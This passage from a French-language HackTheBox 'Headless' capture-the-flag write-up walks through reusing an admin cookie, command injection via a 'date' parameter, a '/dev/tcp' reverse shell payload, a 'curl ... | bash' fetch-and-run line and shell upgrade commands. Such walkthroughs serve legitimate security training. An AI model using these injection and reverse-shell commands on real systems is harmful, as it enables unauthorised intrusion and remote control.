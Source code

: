 Le cookie est encodé en base64

![Admin cookie value](/images/HTB-Headless/admin-cookie-value.png)

![Admin cookie value decoded](/images/HTB-Headless/cookie-value-decoded.png)

Nous retournons à la page `/dashboard` et en utilisant la nouvelle valeur du cookie `ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0` nous obtenons l'accès au tableau de bord de l'administrateur.

![Cookie-Editor](/images/HTB-Headless/cookie-editor.png)

![Admin dashboard accessed](/images/HTB-Headless/Admin-dashboard.png)

## Accès Initial

La seule option disponible est de sélectionner une date et de générer un rapport. Après avoir capturé la requête, nous observons que le seul nouveau paramètre est `date`. Testons l'injection de commande via ce paramètre.

![Generate Report request](/images/HTB-Headless/report-request.png)

Nous sommes en effet en mesure de faire de l'injection de commande via le paramètre.

![Command Injection verified](/images/HTB-Headless/command-injection.png)

Essayer d'obtenir un reverse shell directement via le paramètre `date` ne fonctionne pas, bien que la commande précédente ait été exécutée. 

```
date=2023-09-22;sh -i >& /dev/tcp/IP/PORT 0>&1
```

Puisque l'envoi du reverse shell ne fonctionne pas, nous pouvons essayer de l'exécuter via curl en ajoutant `bash` à la fin de la commande. Nous plaçons le reverse shell dans un fichier et nous l'exécutons sur la cible.

> Voici le reverse shell utilisé : `sh -i >& /dev/tcp/IP_ADDRESS/PORT_NUMBER 0>&1`

```
curl http://IP:PORT/revshell.sh|bash
```

![Reverse shell](/images/HTB-Headless/reverse-shell.png)

Après avoir envoyé la requête, nous obtenons un shell sur notre listener en tant qu'utilisateur `dvir`.

![Foothold](/images/HTB-Headless/foothold.png)

Nous améliorons notre shell à l'aide des commandes ci-dessous.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl + Z
stty raw -echo; fg
stty rows 38 columns 116 
```
